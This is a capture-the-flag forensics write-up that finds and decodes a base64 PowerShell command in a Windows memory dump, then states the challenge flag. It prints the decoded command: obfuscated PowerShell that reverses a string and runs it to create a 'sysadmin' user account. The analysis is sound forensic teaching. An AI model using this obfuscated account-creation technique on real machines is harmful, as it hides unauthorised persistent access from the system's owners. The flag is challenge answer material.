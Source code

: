 this challenge you required to do memory dump analysis, therefore you need to use software like Volatility or Memprocfs

![image](https://github.com/user-attachments/assets/5ee3aa9b-0007-4cdd-80ca-d3d9dd1a7fa4)

analysing it using memprocfs `memprocfs.exe -device C:\Users\aan\Downloads\memory\Windows.vmem -forensic 1`

![image](https://github.com/user-attachments/assets/d721002c-cbce-4de1-8325-f35806bbf9ce)

based from the question itself we were required to find out the created user account and its password command, therefore this kind info can be located at forensic/csv/process.csv file, to analyze it even easier you can use spreadsheet software like TimeLineExplorer

![image](https://github.com/user-attachments/assets/e0c3d587-82cd-4eda-a44a-758990afef9a)

as you can see, there is a strange powershell base64 encoded command executed

![image](https://github.com/user-attachments/assets/d54d6229-963c-4801-a10b-1a701a742d51)

decoding it using cyberchef here is what we got

![image](https://github.com/user-attachments/assets/3b1a5fb7-a61c-4952-a5a3-921547cd199b)

```
$laIIMq = 'dd' + 'a/' + ' ni' + 'mdAS' + 'YS n' + 'i' + 'md' + 'asys ' + 'r' + 'es' + 'u t' + 'en'; $kSmmAiw = -join ($laIIMq.ToCharArray()[-1..-($laIIMq.Length)]); Invoke-Expression $kSmmAiw ; Start-Sleep -Seconds 600
```

upon further inspection `$laIIMq` is reversed net user command of creating a user `sysadmin:SYSAdmin`

flag `ihack24{sysadmin_SYSAdmin}`


